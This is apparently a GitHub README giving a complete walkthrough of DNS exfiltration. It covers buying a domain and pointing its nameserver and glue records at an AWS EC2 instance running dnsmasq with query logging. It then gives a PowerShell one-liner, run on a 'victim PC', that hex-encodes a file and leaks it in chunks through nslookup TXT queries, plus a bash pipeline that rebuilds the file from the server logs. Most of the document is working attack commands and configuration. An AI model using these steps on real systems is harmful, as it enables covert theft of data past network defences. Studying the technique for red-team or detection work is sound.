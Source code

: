 # DNS Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Use Amazon Linux OS, or any Linux OS of your preference.
Logging will contain DNS requests with encoded information, which we can then grep and cut later.

## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

## Step 4: Install dnsmasq on EC2 instance and configure it
`sudo yum install dnsmasq`  
`sudo nano /etc/dnsmasq.conf`  
  
Then input the content below into /etc/dnsmasq.conf, right at the bottom of the config file    
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or use the commands below to restart dnsmasq  
`ps -aux | grep dnsmasq`  
`sudo kill <pid of dnsmasq>`  
`sudo systemctl restart systemd-networkd.service`  
`sudo dnsmasq`  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/b0cfaf2f-93c0-4967-957c-cd3269241435)
  

## Step 5: Go to Route 53 config, note down default SOA and NS records  
Route 53 > click Hosted zones  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/50f03726-cfaf-4c20-b2c4-b5f1186cc1ee)


## Step 6: In Route 53 config, create 2x A Record to point NS record to your EC2 instance
**Record Name:** ns1.<yourdomain.com>  
**Type:** A  
**Value:** <your EC2 public IP address>  
**TTL:** 300  

**Record Name:** ns2.<yourdomain.com>  
**Type:** A  
**Value:** <your EC2 public IP address>
**TTL:** 300  

## Step 7: Modify existing NS Record to point to your NS records, which point to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** NS  
**Value:**  
ns1.<yourdomain.com>  
ns2.<yourdomain.com>  
**TTL:** 60  

## Step 8: Modify existing SOA record to point to your NS record, which points to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** SOA  
**Value:** ns1.<yourdomain.com>. admin.<yourdomain.com> 1 7200 900 1209600 86400  
**TTL:** 60  

  
## Step 9: Modify glue records
In Route 53, click on Registered domains > click Actions > Edit name servers

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/ca4d78ab-49ac-4880-bbfc-755626bd8bcf)  
    

Note down the current name server settings before making any modifications  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/35cf3290-b494-45de-9752-fea7e57e7f91)


Once current settings noted down, change it to point to your own DNS server then Save.  
**Name Server:** ns1.<yourdomain.com>  
**Glue Records:** <your EC2 public IP address>  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/90d99de8-7099-4c4c-be81-5d9a8b68df3e)
  

## Step 10: Use CMD to nslookup as a test
Launch cmd prompt on victim PC then run the command below  
`nslookup -q=TXT 17April2024206pm.<yourdomain.com> ns1.<yourdomain.com>`  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/1cf48904-5c60-4e33-924d-108513b1b5e4)


## Step 11: Check your DNS logs in EC2
In EC2 DNS server, run the command below and observe your nslookup query being logged.
`sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"`  


## Step 12: Powershell command to hex encode a file, split, and do nslookup
Launch powershell prompt on victim PC then run command below.  
   
`cd <to folder holding file to exfiltrate>`  
`certutil -encodehex <file to exfiltrate> encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.<yourdomain.com>" ns1.<yourdomain.com>; sleep 5} `


## Step 13: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing
In EC2 DNS server, run the commands below to combine assemble hex into file.  

`sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 7 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output`  
`sudo cat output | xxd -p -r > ToExfil.txt | cat ToExfil.txt`  

